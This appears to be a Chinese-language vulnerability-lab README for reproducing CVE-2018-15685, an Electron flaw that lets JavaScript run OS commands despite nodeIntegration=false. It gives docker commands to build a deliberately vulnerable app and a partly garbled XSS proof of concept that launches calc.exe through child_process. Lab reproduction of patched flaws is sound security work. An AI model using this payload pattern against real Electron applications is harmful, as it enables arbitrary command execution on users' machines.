


# Electron WebPreferences 远程命令执行漏洞（CVE-2018-15685）

Electron 是由 Github 开发，用 HTML，CSS 和 JavaScript 来构建跨平台桌面应用程序的一个开源库。Electron 通过将 Chromium 和 Node.js 合并到同一个运行时环境中，并将其打包为 Mac，Windows 和 Linux 系统下的应用来实现这一目的。

Electron 在设置了 `nodeIntegration=false` 的情况下（默认），页面中的 JavaScript 无法访问 node.js 的内置库。CVE-2018-15685 绕过了该限制，导致在用户可执行 JavaScript 的情况下（如访问第三方页面或 APP 存在 XSS 漏洞时），能够执行任意命令。

参考链接：

- https://electronjs.org/blog/web-preferences-fix
- https://www.contrastsecurity.com/security-influencers/cve-2018-15685

## 编译 APP

执行如下命令编译一个包含漏洞的应用：

```
docker compose run -e PLATFORM=win64 --rm electron
```

其中 PLATFORM 的值是运行该应用的操作系统，可选项有：`win64`、`win32`、`mac`、`linux`。

编译完成后，再执行如下命令，启动 web 服务：

```
docker compose run --rm -p 8080:80 web
```

此时，访问 `http://your-ip:8080/cve-2018-15685.tar.gz` 即可下载编译好的应用。

## 复现漏洞

在本地打开应用：



点击提交，输入框中的内容将会显示在应用中，显然这里存在一处 XSS 漏洞。

我们提交 ``，发现没有任何反馈，原因就是 `nodeIntegration=false`。

此时，提交 POC（Windows）：

```
require(\'child_process\').exec(\'calc.exe\')</script>');">
```

可见，calc.exe 已成功弹出：


